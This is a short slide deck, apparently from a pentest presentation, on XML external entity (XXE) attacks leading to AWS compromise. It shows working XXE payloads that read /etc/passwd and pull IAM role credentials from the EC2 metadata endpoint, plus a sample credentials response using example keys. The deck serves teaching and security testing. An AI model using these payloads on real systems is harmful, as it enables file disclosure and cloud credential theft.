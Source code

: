 # XXE and AWS Compromise

---

## @fa[book](Background)
![diagram](xxe-aws-compromise/assets/diagram1.png)

---

## @fa[code](XML Entities)
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>

<foo>&xxe;</foo>
```

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln1.png)

---

## @fab[aws](AWS Metadata)
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-iam-role" >
]>

<foo>&xxe;</foo>
```

`http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-iam-role`

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln2.png)

---

## @fa[terminal](Metadata response)
```json
{
  "Code" : "Success",
  "LastUpdated" : "2019-07-01T12:11:43Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "AKIAIOSFODNN7EXAMPLE",
  "SecretAccessKey" : "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY",
  "Token" : "************",
  "Expiration" : "2019-07-01T18:46:08Z"
}
```

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln3.png)

---
